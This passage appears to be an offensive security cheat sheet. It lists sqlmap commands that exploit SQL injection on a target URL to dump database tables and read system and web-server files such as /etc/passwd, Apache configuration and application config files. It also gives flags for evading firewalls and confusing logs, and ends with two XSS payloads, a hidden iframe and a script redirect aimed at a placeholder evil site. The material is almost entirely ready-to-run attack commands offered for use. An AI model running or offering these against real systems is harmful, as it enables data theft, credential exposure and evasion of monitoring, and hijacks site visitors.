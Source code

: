 **Retrieve tables from specific Database**

./sqlmap.py -u "[http://&lt;target&gt;/index.php?param1=1&param2=2&param3=3](http://<target>/index.php?param1=1&param2=2&param3=3)" --tables -D &lt;database-name&gt;

**Dump specific table contents**

./sqlmap.py -u "[http://&lt;target&gt;/index.php?param1=1&param2=2&param3=3](http://<target>/index.php?param1=1&param2=2&param3=3)" --dump -D &lt;database-name&gt; -T &lt;table-name&gt;

**Retrieve system /etc/password file**

./sqlmap.py -u "[http://&lt;target&gt;/index.php?param1=1&param2=2&param3=3](http://<target>/index.php?param1=1&param2=2&param3=3)" --file-read=/etc/passwd

**Retrieve apache2 configuration file to identify live website config files**

./sqlmap.py -u "[http://&lt;target&gt;/index.php?param1=1&param2=2&param3=3](http://<target>/index.php?param1=1&param2=2&param3=3)" --file-read=/etc/apache2/apache2.conf

**Retrieve default configuration file to subsequently identify Document Root \(web directory location\)**

./sqlmap.py -u "[http://&lt;target&gt;/index.php?param1=1&param2=2&param3=3](http://<target>/index.php?param1=1&param2=2&param3=3)" --file-read=/etc/apache2/sites-enabled/000-default

**Retrieve CMS/Web app default configuration file if possible**

./sqlmap.py -u "[http://&lt;target&gt;/index.php?param1=1&param2=2&param3=3](http://<target>/index.php?param1=1&param2=2&param3=3)" --file-read=&lt;Document-root-path&gt;/&lt;Web-Application-Path&gt;/&lt;configuration-file&gt;

**Other interesting flags:**

--check-waf         Check for existence of WAF/IPS/IDS protection - implementation of nmap http-waf-detect nse script

Some logfile Misdirection flags:

--random-agent      Use randomly selected HTTP User-Agent header

--safe-url=&lt;target-normalised-URL&gt;   Url address to visit frequently during testing

--safe-freq=&lt;num-seconds&gt;  Test requests between two visits to a given safe url

--mobile            Imitate smartphone through HTTP User-Agent header

---

**Basic Client-side attacks**

XSS - iframe

&lt;iframe src="[http://&lt;evil-site-address&gt;](http://<evil-site-address&gt);" width="0" height="0"&gt;&lt;/iframe&gt;

XSS - javascript

&lt;script&gt;document.location="&lt;evil-site-address&gt;";&lt;/script&gt;

